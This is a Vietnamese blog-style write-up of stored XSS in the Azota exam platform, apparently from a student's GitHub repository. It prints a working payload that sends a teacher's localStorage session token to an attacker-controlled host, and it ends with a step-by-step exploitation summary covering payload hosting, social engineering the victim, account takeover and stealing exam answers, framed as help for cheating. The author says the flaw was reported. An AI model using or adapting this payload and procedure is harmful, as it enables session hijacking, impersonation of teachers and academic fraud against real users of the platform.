 # Tôi đã hack đáp án azota như nào trong kỳ thi như thế nào
-------------------------------------------
## [Đến phần khai thác luôn thì ấn vào đây](#Tóm-tắt-khai-thác)

## - Mở bài
Thật ra cũng thật tình cờ vào một ngày đẹp thức dậy vào lúc 7h đánh răng ngồi vào bàn học mở zoom thân thương lên để học tập trong mùa dịch, một thông báo bất ngờ hiện lên với dòng tin nhắn của thầy tôi là **KIỂM TRA HOÁ GIỮA KỲ** vào tuần sau trên azota, tôi thật bất ngờ nhưng cũng thật bình tĩnh....
Sau 5 tiết học bận rội tôi mở chiếc lattop cũ kỹ của tôi lên vào web azota để lập tài khoản và thi thử. Tôi biết mình là một người học không tốt môn hoá mấy(thật ra mất gốc). Từ đó tôi suy nghĩ có cách nào mà làm cái khác mà vẫn có ăn không.

## - Thân bài 
Sau khi dạo quanh một vòng web thì tôi tìm ra một số api bị dính lỗi.
Địa chỉ bị lỗi là phần chỉnh sửa web site của azota:
![anh_chinh_sua_web](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/1sua_web.PNG)

### Các api thú vị:
#### Api - 1
`PUT /ladipage/m11_2021/d02/1787477/6181ab4aXXXXXXXXXXX`
`Host: wewiin.nyc3.digitaloceanspaces.com`
![post_chinhsua_web](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/2post_chinhsua_web.PNG?raw=true)


Đây là một api post dữ liệu web của mình lên `CND` trung gian của `digitaloceanspaces`.

Theo chúng ta thấy dữ liệu post ở đây không bị mã hoá và nó là html.

Mình đã thử chèn một đoạn thẻ `<script>alert(1)</script>` post lên .

Và thật bất ngờ ngay sau khi mình truy cập trang web của mình thì web đã bị xss.

Khoan dừng khoảng chừng là 2 giây ở đây mình đã xss trang `CDN` chứ không phải trang `azota.vn`(đọc sang api thứ 2 thì hiểu nhé).

Mình nhẹ nhàng check lại bằng cách thay `alert(1)` =>  `alert(document.URL)`

**Và :**

![alert_url](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/alert_url.PNG?raw=true)


Thật bất ngờ khi alert hiện lên là url azota đến đây thì mình đã hiểu là web đã render dữ liệu *HTML* từ `CDN` vào thẳng trang web chứ không chèn thông qua `iframe`.
Từ đây web đã bị dính `Stored XSS`

#### Api thứ 2
`POST /api/Usersetting/SaveMyDomain HTTP/2`
`Host: azota.vn`
![post_url_render](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/3post_url_render.PNG?raw=true)


Vậy ra đây một api post `url` web của bạn lên để khi truy cập web site của bạn thì **web sẽ render html** từ trang web này @@.
Nếu vậy có nghĩa là mình chèn một [URL](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/xss.html) 

bị tiêm mã script thì khi web azota render html từ trang đó thì cũng bị `XSS`.



### Tóm lại web đã bị xss nhưng làm sao hack được đáp án
Ở đây nếu muốn lấy đáp án thì phải truy cập vào tài khoản của thầy giáo qua `cookie`(document.cookie) nhưng nếu cookie `httponly` hoặc được `secure` thì chắc cũng bó tay **nhưng ở đây là lúc mình nhận ra** web họ không xác thực qua cookie mà qua `localStorage` **@@ khó hiểu** nếu vậy mình chỉ cần đánh cắp `localStorage` của thầy là mình đã có thể truy cập vào ních thầy được rồi.

code xss 
```
<script>
// post data localStorage lên server của mình 
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://webcuaban.com", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("data=".concat(localStorage.getItem("user_obj")));
//chuyển hướng đánh lừa thầy web lỗi 404
window.location=("https://azota.vn/vi/admin/baithi");
</script>
```
Giờ thì `social engineering` thôi :3 
![anh_social](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/social.PNG?raw=true)

Ngay sau đó mình đã có data đăng nhập của thầy:

![anh_data](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/data.PNG?raw=true)

:)) đến giờ thì vào thay `localStorage` của thầy và khui đáp án thi học kỳ lấy 10đ thôi.

## - Kết bài
Mình chỉ demo vui vậy thôi chứ mình đã report cho bên đơn vị liên quan để họ sửa chữa

![anh_suachua](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/fix.PNG?raw=true).


# Tóm tắt khai thác 
- 1 Tạo câu lệnh js lấy `localStorage`
    ```
    <script>
    // post data localStorage lên server của mình 
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", "https://webcuaban.com", true);
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("data=".concat(localStorage.getItem("user_obj")));
    //chuyển hướng đánh lừa thầy web lỗi 404
    window.location=("https://azota.vn/vi/admin/baithi");
    </script>
    ```
    Lưu ý vào **https://webcuaban.com** là web của các bạn chèn vào để lấy thông tin post lên ở đây mình khuyến khích các bạn tạo một api get request free ở đây [https://requestbin.com/](https://requestbin.com/)
- 2 Up code lên web nào đó khuyến khích [pastebin](https://pastebin.com/) or [github](https://github.com/VHAE04) ....
  Demo [https://pastebin.com/raw/yS3NZUMr](https://pastebin.com/raw/yS3NZUMr)
- 3 Post url đã được tiêm lệnh lên **[api sau](#Api-thứ-2)**
- 4 Bảo người dùng vào đường dẫn bằng `social engineering`
- 5 Lên web lấy thông tin khi nạn nhân đã post và thay vào `localStorage` của mình
- 6 Truy cập vào tài khoản qua `localStorage` và lấy đáp án thôi :3 **chúc bạn thi thật tốt**
